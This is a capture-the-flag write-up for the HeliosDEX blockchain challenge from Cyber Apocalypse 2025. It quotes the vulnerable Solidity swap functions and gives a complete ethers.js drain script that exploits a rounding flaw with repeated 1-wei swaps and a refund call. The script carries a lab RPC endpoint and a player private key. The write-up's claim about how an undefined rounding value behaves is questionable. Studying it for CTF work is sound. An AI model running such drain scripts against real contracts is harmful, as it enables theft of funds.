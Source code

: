 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | HeliosDEX Writeup
desc: Check out our writeup for HeliosDEX for Cyber Apocalypse 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: blockchain
challenge: HeliosDEX
tags: "blockchain, starry, solidity"
date: 2025-03-29T00:00:00+00:00
last_modified_at: 2025-03-29T00:00:00+00:00
---
```



> Solved by Starry-Lord

We have a `Setup.sol` and a HeliosDEX.sol to review. In HeliosDEX.sol this flaw was found:


    function swapForELD() external payable underHeliosEye {
            uint256 grossELD = Math.mulDiv(msg.value, exchangeRatioELD, 1e18, Math.Rounding(0));
            uint256 fee = (grossELD * feeBps) / 10_000;
            uint256 netELD = grossELD - fee;
    
            require(netELD <= reserveELD, "HeliosDEX: Helios grieves that the ELD reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
    
            reserveELD -= netELD;
            eldorionFang.transfer(msg.sender, netELD);
    
            emit HeliosBarter(address(eldorionFang), msg.value, netELD);
        }
    
        function swapForMAL() external payable underHeliosEye {
            uint256 grossMal = Math.mulDiv(msg.value, exchangeRatioMAL, 1e18, Math.Rounding(1));
            uint256 fee = (grossMal * feeBps) / 10_000;
            uint256 netMal = grossMal - fee;
    
            require(netMal <= reserveMAL, "HeliosDEX: Helios grieves that the MAL reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
    
            reserveMAL -= netMal;
            malakarEssence.transfer(msg.sender, netMal);
    
            emit HeliosBarter(address(malakarEssence), msg.value, netMal);
        }
    
        function swapForHLS() external payable underHeliosEye {
            uint256 grossHLS = Math.mulDiv(msg.value, exchangeRatioHLS, 1e18, Math.Rounding(3)); <----- That's the issue here
            uint256 fee = (grossHLS * feeBps) / 10_000;
            uint256 netHLS = grossHLS - fee;
            
            require(netHLS <= reserveHLS, "HeliosDEX: Helios grieves that the HSL reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
            
    
            reserveHLS -= netHLS;
            heliosLuminaShards.transfer(msg.sender, netHLS);
    
            emit HeliosBarter(address(heliosLuminaShards), msg.value, netHLS);
        }

According to OpenZeppelin’s documentation for the Math Library:


    enum Rounding {
        Down, // Toward negative infinity --> Math.Rounding(0)
        Up, // Toward infinity --> Math.Rounding(1)
        Zero // Toward zero --> Math.Rounding(2)
    }

This means Math.Rounding(3) will cause unexpected behaviors, here are the key points:
Since `3` isn't defined, the compiler treats it as an undefined value, falling back to default rounding behavior which is **Up** [**🎉🎉🎉**](https://emojipedia.org/party-popper)

This rounding made me rich after 250 swaps! Just had to make sure to only swap 1 Wei each time and call the refund function once only, as per the contracts.


![](https://i.imgur.com/Kjig6bi.png)



`drain.js script`


    const { ethers } = require("ethers");
    
    // Your setup info
    const RPC_URL = "http://94.237.57.122:59310";
    const PLAYER_PRIVATE_KEY = "0xc355db294444232fe7a8e308550e87f2f79c617b7f04541d2f44348235dbf133";
    const PLAYER_ADDRESS = "0xF44279bF0072cd7BD98F4b994d3E7ad7ed15Cd45";
    
    // Contracts
    const SETUP_ADDRESS = "0xD05A41b677783bAB39B68499F8f11f8066A61545";
    
    const SETUP_ABI = [
      "function isSolved() public view returns (bool)",
      "function TARGET() public view returns (address)"
    ];
    
    const HELIOS_DEX_ABI = [
      "function swapForHLS() external payable",
      "function oneTimeRefund(address item, uint256 amount) external",
      "function heliosLuminaShards() external view returns (address)",
      "function hasRefunded(address user) external view returns (bool)"
    ];
    
    const ERC20_ABI = [
      "function approve(address spender, uint256 amount) external returns (bool)",
      "function balanceOf(address account) external view returns (uint256)"
    ];
    
    async function main() {
      const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
      const wallet = new ethers.Wallet(PLAYER_PRIVATE_KEY, provider);
    
      const setupContract = new ethers.Contract(SETUP_ADDRESS, SETUP_ABI, wallet);
      const targetAddress = await setupContract.TARGET();
      const dex = new ethers.Contract(targetAddress, HELIOS_DEX_ABI, wallet);
    
      const hlsAddress = await dex.heliosLuminaShards();
      const hlsToken = new ethers.Contract(hlsAddress, ERC20_ABI, wallet);
    
      console.log(`Connected to HeliosDEX at: ${targetAddress}`);
    
      // Exploit: repeatedly swap very small ETH amounts to get HLS due to faulty rounding
      const exploitValue = ethers.utils.parseUnits("1", "wei"); // smallest possible ETH amount
      const iterations = 250; // Do multiple swaps to accumulate tokens efficiently
    
      console.log(`Starting exploit with ${iterations} swaps of 1 wei each...`);
      for (let i = 0; i < iterations; i++) {
        const txSwap = await dex.swapForHLS({ value: exploitValue });
        await txSwap.wait();
        console.log(`Swap #${i + 1} completed.`);
      }
    
      // Check accumulated HLS balance
      const hlsBalance = await hlsToken.balanceOf(PLAYER_ADDRESS);
      console.log(`Accumulated HLS balance: ${ethers.utils.formatUnits(hlsBalance, 18)} HLS`);
    
      // Approve the DEX to spend tokens
      const approveTx = await hlsToken.approve(targetAddress, hlsBalance);
      await approveTx.wait();
      console.log("Approved DEX to spend HLS tokens.");
    
      // Perform refund once to gain ETH
      const hasRefunded = await dex.hasRefunded(PLAYER_ADDRESS);
      if (!hasRefunded) {
        const refundTx = await dex.oneTimeRefund(hlsAddress, hlsBalance, { gasLimit: 1000000 });
        await refundTx.wait();
        console.log("Refund executed successfully.");
      } else {
        console.log("Refund already executed previously.");
      }
    
      const playerBalance = await provider.getBalance(PLAYER_ADDRESS);
      console.log(`Final player's ETH balance: ${ethers.utils.formatEther(playerBalance)} ETH`);
    
      const solved = await setupContract.isSolved();
      if (solved) {
        console.log("Challenge Solved! Player has 20 ETH or more.");
      } else {
        console.log("Not solved yet, consider increasing iterations.");
      }
    }
    
    main().catch((error) => {
      console.error("Error during exploit execution:", error);
    });
    


